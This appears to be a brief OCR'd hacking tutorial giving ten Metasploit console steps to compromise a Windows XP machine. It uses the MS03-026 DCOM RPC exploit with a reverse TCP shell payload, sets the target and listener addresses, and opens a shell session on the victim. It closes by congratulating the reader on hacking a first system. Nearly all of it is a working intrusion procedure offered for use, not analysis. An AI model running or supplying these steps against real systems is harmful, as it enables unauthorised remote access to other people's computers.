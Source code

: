 How to Exploit and Gain Remote Access to PCs Running Windows XP :

Step 1: First, open a terminal in Linux.
> msfconsole
Step 2: Find the Exploit
> search dcom 
Step 3: Set the Exploit 
> use exploit/windows/dcerpc/ms03_026_dcom 
Step 4: Set the Options
> show options 
Step 5: Set Remote Host 
> set RHOST 192.168.10.133
Step 6: Show Payloads 
> show payloads 
Step 7: Set Payload 
> set PAYLOAD generic/shell_reverse_tcp 
Step 8: Set Local Host
> set LHOST 192.168.10.131
Step 9: Exploit 
> exploit
Step 10: Open a Shell on the Hacked System 
> sessions –i 1

Congratulations! You have just hacked your first system 
using Metasploit!